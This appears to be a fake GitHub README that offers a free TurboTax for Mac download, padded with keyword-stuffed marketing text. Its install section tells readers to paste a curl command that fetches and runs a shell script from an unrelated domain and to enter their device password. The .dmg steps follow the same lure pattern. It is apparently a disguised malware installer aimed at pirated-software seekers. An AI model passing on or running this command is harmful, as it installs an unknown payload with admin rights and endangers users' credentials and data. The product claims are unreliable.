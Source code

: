 # TurboTax For Mac — Free Download for macOS 📊

TurboTax for Mac is a powerful tax preparation software designed to simplify your tax filing process. Follow the instructions below to download and install it on your macOS device with ease. Get started today! 😊

[![Download Now](https://img.shields.io/badge/Download-Now-007AFF?style=for-the-badge&logo=apple)]()

If the download button doesn’t work, follow the step-by-step installation instructions below using the Terminal.

## 📦 How to Install TurboTax For Mac OS

### Installation via .dmg:

1. Install the .dmg file using the button above.
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a command in the terminal:

1. Copy the installation command below:

```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get3/install.sh)"
```

2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

## 🎯 What You Get with TurboTax

- 📈 **Maximize Deductions**: Automatically identify and apply tax deductions tailored to your financial situation.
- 💻 **User-Friendly Interface**: Navigate through a sleek, macOS-optimized interface for a seamless tax filing experience.
- 🔒 **Secure Data Handling**: Protect your sensitive financial data with advanced encryption and secure cloud storage.
- 🧠 **Smart Recommendations**: Receive real-time guidance to optimize your tax returns and avoid costly mistakes.
- 📱 **Multi-Device Sync**: Access your tax data across devices with seamless cloud synchronization.
- 🛠 **Free Updates**: Stay compliant with the latest tax laws through regular software updates.

## About TurboTax

TurboTax for Mac is the leading tax preparation software designed specifically for macOS users, offering a streamlined way to file taxes with confidence. Whether you're a freelancer, small business owner, or individual taxpayer, TurboTax simplifies the process by guiding you through every step. With its intuitive interface and robust features, TurboTax ensures you maximize deductions while staying compliant with the latest tax regulations. Keywords: TurboTax free download, tax software for Mac, macOS tax preparation.

One of the standout features of TurboTax is its ability to automatically import financial data from banks, payroll providers, and investment platforms. This eliminates manual data entry, saving time and reducing errors. By leveraging smart algorithms, TurboTax identifies potential deductions and credits you might overlook, ensuring you get the maximum refund possible. Keywords: TurboTax for Mac free, tax filing macOS, free tax software.

For macOS users, TurboTax offers a native experience optimized for Apple’s ecosystem. The software integrates seamlessly with macOS features like Spotlight Search and iCloud, allowing you to access your tax documents effortlessly. Its clean design and step-by-step guidance make it accessible for both beginners and experienced filers. Keywords: download TurboTax Mac, tax preparation software, TurboTax macOS.

TurboTax also prioritizes security, using industry-standard encryption to protect your personal and financial information. Whether you're filing federal or state taxes, TurboTax ensures your data remains safe while providing real-time feedback to avoid errors. The software supports a wide range of tax scenarios, from simple W-2 filings to complex self-employment taxes. Keywords: TurboTax free macOS, secure tax software, tax filing for Mac.

Another key advantage is TurboTax’s commitment to keeping users updated with the latest tax laws. Regular updates ensure compliance with federal and state regulations, making it a reliable choice for macOS users. With TurboTax, you can file your taxes quickly, accurately, and with peace of mind. Keywords: TurboTax download free, macOS tax app, free tax preparation.

### Advantages of TurboTax for Mac

TurboTax for Mac stands out due to its seamless integration with macOS, robust security features, and comprehensive tax support. Unlike other tax software, TurboTax offers a native macOS experience, ensuring smooth performance and compatibility with Apple’s ecosystem. Its real-time error checking, personalized recommendations, and free updates make it the go-to choice for macOS users looking to simplify tax season. Keywords: TurboTax for Mac download, tax software macOS, free TurboTax.

## 🖼 Preview

![TurboTax Dashboard](https://fileinfo.com/img/sw/ss/xl/intuit_turbotax_166.png) 
*Clean and intuitive dashboard for easy tax filing.*

![Deduction Finder](https://mac-cdn.softpedia.com/screenshots/TurboTax-2012_1.jpg)  
*Automatically identifies deductions to maximize your refund.*

![Secure Data Input](https://mac-cdn.softpedia.com/screenshots/TurboTax-2012_6.jpg)  
*Securely import financial data with advanced encryption.*


## 🔍 Tags

TurboTax free download, TurboTax for Mac, tax software for Mac, macOS tax preparation, TurboTax macOS, download TurboTax Mac, free tax software, tax filing macOS, secure tax software, TurboTax download free, TurboTax free, TurboTax download, TurboTax free mac, TurboTax download, TurboTax download free, TurboTax mac
